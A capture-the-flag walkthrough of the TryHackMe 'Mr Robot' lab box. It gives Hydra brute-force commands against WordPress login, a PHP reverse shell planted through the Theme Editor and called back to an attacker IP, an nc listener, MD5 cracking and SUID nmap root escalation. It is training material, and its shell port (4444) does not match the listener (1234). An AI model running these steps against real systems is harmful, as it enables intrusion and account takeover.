# TryHackMe: Mr Robot CTF

    



## Room Info

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Room** | [Mr Robot CTF](https://tryhackme.com/room/mrrobot) |
| **Difficulty** | Medium |
| **Estimated Time** | 30 min (official estimate — took longer in practice, typical for this box) |
| **Category** | Web (WordPress) → credential attacks → Linux privilege escalation (SUID) |
| **Tools Used** | `nmap`, `gobuster`, `wget`, `sort`/`uniq`, `hydra`, WordPress Theme Editor, pentestmonkey `php-reverse-shell`, `nc`, CrackStation, `python3` (pty), `find` |
| **Objective** | Find all three keys: `key-1-of-3.txt`, `key-2-of-3.txt`, `key-3-of-3.txt` |

---

## Concept Glossary

- **`robots.txt` as an accidental recon leak** — `robots.txt` tells search engine crawlers which paths *not* to index, but it says nothing about access control. Listing a path there doesn't hide or protect it — it just becomes a map of "things the site owner didn't want indexed," which is often exactly what an attacker wants to see first.
- **Wordlist deduplication (`sort | uniq -d` + `sort | uniq -u`)** — a large scraped/generated wordlist (like `fsocity.dic`, built from words on the show's dialogue/site) usually has heavy duplication. `sort file | uniq -d` prints only lines that appear *more than once* (each shown once); `sort file | uniq -u` prints only lines that appear *exactly once*. Appending both outputs together reconstructs the full set of distinct words — functionally the same result as `sort -u file`, just split into two passes. The point is the same either way: cut a multi-megabyte wordlist down to its unique entries so a brute-force tool isn't wasting time retrying identical guesses.
- **Differential error messages → username enumeration** — many login forms (including this WordPress instance) return a *different* error message for "that username doesn't exist" versus "that username exists but the password is wrong." That difference is itself a vulnerability: an attacker can hold the password constant, iterate a wordlist as **usernames**, and watch for the failure message to change — silently confirming which usernames are real without ever needing a correct password.
- **Hydra's `http-post-form` module** — the syntax is `path:body:failure-condition`. `^USER^` and `^PASS^` are placeholders Hydra substitutes on every attempt; `F=<string>` tells Hydra "if this string appears in the response, treat it as a failed attempt" (the inverse, `S=`, would mark a *success* string instead). Choosing the right failure string is what makes the username-enumeration trick above possible — pointing it at the "invalid username" message versus the "invalid password" message targets two completely different questions.
- **WordPress Theme Editor as RCE** — any authenticated WordPress admin can reach *Appearance → Editor* and directly rewrite theme files from the browser. Since themes are plain PHP served straight to visitors, this is arbitrary remote code execution by design once you have valid admin credentials — no separate "vulnerability" is needed beyond a valid login.
- **pentestmonkey `php-reverse-shell`** — a widely-used, battle-tested PHP reverse shell script. Only two variables need editing before deployment: `$ip` (the attacker's listening IP) and `$port` (the listener's port); everything else handles connecting back and spawning an interactive `/bin/sh`.
- **Upgrading a raw shell with Python `pty`** — a shell caught directly from a reverse-shell payload (via `nc`) is usually a "dumb" pipe: no job control, no tab-completion, no `Ctrl+C` handling, and commands like `su` may not even prompt properly. Running `python -c 'import pty; pty.spawn("/bin/bash")'` on the target spawns a real pseudo-terminal wrapping `/bin/bash`, turning that raw pipe into something that behaves like an actual interactive terminal session.
- **SUID binaries and old `nmap`'s interactive mode** — a SUID bit on a binary makes it run with its *owner's* privileges rather than the caller's. Older versions of `nmap` (pre-5.30-ish) shipped an `--interactive` mode that supported an internal `!<command>` escape to run arbitrary shell commands from inside the nmap prompt. If that specific nmap binary carries the SUID bit and is owned by root, escaping out to a shell from within it inherits root's effective privileges — a well-known, specific privilege escalation vector (distinct from GTFOBins-style abuse of coreutils, but the same underlying principle: a privileged binary that can be coerced into running arbitrary commands).

---

## 1. Reconnaissance — Port Scan

```bash
nmap -sV -O 10.130.188.26
```



**Results:**

| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80 | HTTP | shown closed at scan time |
| 443 | HTTPS | shown closed at scan time |

OS fingerprinting came back inconclusive (a spread of guesses from embedded-device Linux builds to modern kernels) — not unusual for a box behind TryHackMe's network layer.

**Note on the port 80/443 "closed" result:** despite this scan, the web app was reachable and enumerated normally in every following step. The target's IP address changes partway through this writeup (`10.130.188.26` → `10.129.155.55`) between the earlier web-enum screenshots and the later exploitation screenshots — consistent with the TryHackMe lab machine being restarted/reassigned mid-session, which happens routinely on longer engagements. Mentioned here for accuracy rather than treated as a real inconsistency in the box itself.

---

## 2. Web Enumeration — Directory Brute-Force

```bash
gobuster dir -u http://10.130.188.26/ -w /usr/share/wordlists/dirb/common.txt
```





**Key finds among the results:**
- `wp-login.php`, `wp-admin/`, `wp-content/`, `wp-includes/` — confirms this is a **WordPress** site
- `admin` (redirects toward `/wp-admin/`)
- `license`, `readme` — standard WP files, but worth checking for version disclosure
- `robots.txt` — flagged as `200`, worth reading directly (see next step)

**Why:** confirming the CMS immediately narrows the attack surface to "how do I get valid WordPress credentials" — WordPress's own attack surface (plugins, themes, `wp-login.php`, XML-RPC) is well-documented and a known quantity once identified.

---

## 3. Reading `robots.txt` — Finding the Wordlist and Key 1

```
http://10.130.188.26/robots.txt
```



**Contents:**
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Two files openly listed — `robots.txt` was only meant to keep search engines from *indexing* them, not stop a human from just requesting them directly.

Visited `key-1-of-3.txt` directly:



**Key 1:** `073403c8a58a1f8c` — the remainder of the string was obscured by a browser text-selection highlight in the screenshot and wasn't fully captured; only the first 16 characters are confirmed here.

---

## 4. Building a Targeted Wordlist from `fsocity.dic`

Before attacking the login, checked what the login page itself looks like:



Standard `wp-login.php` — nothing unusual, so the plan became: get real credentials via `fsocity.dic` rather than trying to break the login mechanism itself.

Sampled the raw wordlist:



It's a large, messy list of words scraped from the show/site — plenty of duplicates. Downloaded it and deduplicated:

```bash
wget http://10.130.188.26/fsocity.dic
sort fsocity.dic | uniq -d > fs-list
sort fsocity.dic | uniq -u >> fs-list
```



**Why:** `fsocity.dic` downloaded as a 6.9MB file — full of repeated entries. Running it through Hydra unmodified would waste enormous amounts of time re-testing identical guesses. The `uniq -d` / `uniq -u` combination compresses it down to just the distinct words, which is what actually matters for a brute-force attempt.

---

## 5. Username Enumeration via Differential Error Messages

```bash
hydra -L fs-list -p fsociety 10.130.188.26 http-post-form \
  "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```



**What this actually does:** the *password* is fixed to `fsociety` and the wordlist is fed in as candidate **usernames**. The failure condition being tested is specifically `"Invalid username"` — WordPress's message when the username itself doesn't exist. Any attempt that *doesn't* trigger that string means the username is valid (even though the password is still wrong).

**Result:** `elliot` (along with case variants `Elliot` / `ELLIOT`, since WordPress usernames are matched case-insensitively) came back as a valid username.

---

## 6. Password Brute-Force

With a confirmed username, switched the same wordlist to attack the **password** field instead, using WordPress's actual wrong-password message as the new failure condition:

```bash
hydra -l elliot -P fs-list 10.129.155.55 http-post-form \
  "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```



**Result:** valid credentials found — `elliot : ER28-0652`.

---

## 7. Gaining Code Execution — WordPress Theme Editor

Logged into `/wp-admin` as `elliot`. Referenced the pentestmonkey `php-reverse-shell` project as the payload source:



Navigated to **Appearance → Editor** and pasted the reverse shell code into the active theme (twentyfifteen), editing only the two required lines:

```php
$ip = '192.168.164.247';  // CHANGE THIS
$port = 4444;             // CHANGE THIS
```



The editor confirmed **"File edited successfully."** — since Theme Editor writes are plain filesystem writes to files the webserver directly executes as PHP, this is code execution as soon as the corresponding file is requested.

**Note:** the exact request that triggered execution (visiting the theme's file directly, or WordPress rendering it as part of a normal page load) wasn't captured in a screenshot — only the save confirmation and the shell landing shortly after.

---

## 8. Catching the Shell

```bash
nc -lvnp 1234
```



```
connect to [192.168.164.247] from (UNKNOWN) [10.129.155.55] 51588
/bin/sh: 0: can't access tty; job control turned off
$
```

Landed a shell as the web server's low-privileged user (`daemon`), with the classic raw-pipe limitations (no TTY, no job control) that come with a first-stage `nc` catch.

---

## 9. Finding the Password Hash for `robot`

```bash
cd /home/robot
ls -la
cat key-2-of-3.txt
cat password.raw-md5
```



**Findings:**
- `key-2-of-3.txt` — permissions `-r--------`, owned by `robot:robot` → **Permission denied** as `daemon`
- `password.raw-md5` — world-readable, contains: `robot:c3fcd3d76192e4007dfb496cca67e13b`

**Why:** the key file is deliberately locked down to the `robot` user only — the readable hash file right next to it is the intended path to actually *become* that user.

---

## 10. Cracking the Hash

Ran the MD5 hash through CrackStation:



**Result:** `c3fcd3d76192e4007dfb496cca67e13b` → `abcdefghijklmnopqrstuvwxyz`

**Why it cracked instantly:** despite looking like a "random" hash, the plaintext is just the alphabet in order — a very well-known string that's present in essentially every rainbow table, illustrating that hash *strength* depends entirely on the unpredictability of what's hashed, not on MD5 itself being unbroken.

---

## 11. Upgrading the Shell and Switching User

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
su robot
Password: abcdefghijklmnopqrstuvwxyz
```



The `pty.spawn` call turns the raw `nc` pipe into a proper interactive Bash session (this step is what actually makes `su`'s password prompt usable in the first place), and the cracked password logs in as `robot`.

Attempted to read the second key:

```bash
cat /home/robot/key-2-of-3.txt
```



**Key 2:** Not captured — the command was issued but the flag value wasn't visible in the screenshot before it cut off.

---

## 12. Privilege Escalation — Finding a SUID `nmap`

```bash
find / -perm -u=s -type f 2>/dev/null
```



Most of the results are expected system binaries (`passwd`, `sudo`, `su`, `pkexec`, etc.) — but one stands out: **`/usr/local/bin/nmap`**. A non-default install location for `nmap`, carrying the SUID bit, is not normal on a stock system and is a strong signal this was deliberately placed as the intended escalation path.

---

## 13. Exploiting SUID `nmap`'s Legacy Interactive Mode

```bash
nmap --interactive
!sh
whoami
id
```



The first `!sh` attempt failed (`sh: not found` in that particular path context), but the interactive session itself was already running with root's effective privileges thanks to the SUID bit — confirmed directly:

```
nmap> whoami
root
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
```

Full root access achieved.

Finally, read the last key from inside the root-privileged nmap session:

```bash
cat /root/key-3-of-3.txt
```



**Key 3:** Not captured — the command was issued from the root-privileged nmap prompt, but the flag value wasn't visible in the final screenshot before it cut off.

---

## Full Lessons Learned

1. **`robots.txt` is a hint list for attackers, not an access control mechanism.** The single biggest turning point in this box — finding `fsocity.dic` and `key-1-of-3.txt` — came from reading a file whose entire purpose is "please don't index this," which says nothing about whether a human with a browser can request it directly.
2. **Differential error messages are a real, exploitable vulnerability class**, not just an academic OWASP bullet point. Splitting the Hydra attack into "enumerate the username using the *username* failure message" and then "crack the password using the *password* failure message" is a clean, repeatable two-stage technique worth remembering as a pattern, not just a one-off trick for this box.
3. **A wordlist is only as useful as its signal-to-noise ratio.** `fsocity.dic` at 6.9MB with heavy duplication would have made the brute-force painfully slow; the `sort | uniq -d` + `sort | uniq -u` combination (equivalent to `sort -u`) is a five-second step that meaningfully speeds up everything downstream.
4. **Any feature that lets an authenticated admin write server-executed code is RCE by design**, not a bug to be found separately — WordPress's Theme Editor is a supported, intended feature, and it's still a straight path to a shell the moment valid admin credentials are obtained. The "vulnerability" here really was the weak credentials, not the editor itself.
5. **A raw reverse shell is a starting point, not a finish line.** The `python -c 'import pty; pty.spawn("/bin/bash")'` upgrade is close to mandatory technique at this point — without it, `su` and other interactive prompts don't behave correctly, and the difference between "a shell" and "a *usable* shell" matters for everything that comes after.
6. **Hash strength is about entropy of the input, not just the algorithm.** MD5 being cryptographically broken wasn't even the relevant factor here — `abcdefghijklmnopqrstuvwxyz` cracks instantly against *any* algorithm because it's a famous, low-entropy string, not because MD5 specifically failed.
7. **Non-standard install paths for common tools are worth flagging during SUID enumeration.** `/usr/local/bin/nmap` instead of the system's normal `/usr/bin/nmap` was the tell that this specific binary had been placed deliberately — location and context matter just as much as the SUID bit itself when scanning `find / -perm -u=s` output.

---

## Skills Demonstrated

`Nmap enumeration` · `Web directory brute-forcing (gobuster)` · `robots.txt-based recon` · `Wordlist processing (sort/uniq deduplication)` · `WordPress username enumeration via error-message analysis` · `Hydra http-post-form credential attacks` · `WordPress Theme Editor RCE` · `PHP reverse shell deployment (pentestmonkey)` · `Reverse shell handling and TTY upgrading (python pty)` · `Hash identification and cracking (CrackStation)` · `SUID binary enumeration` · `Legacy nmap --interactive privilege escalation`

---

## References

- [TryHackMe — Mr Robot CTF](https://tryhackme.com/room/mrrobot)
- [pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [CrackStation — Free Password Hash Cracker](https://crackstation.net/)
- [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)
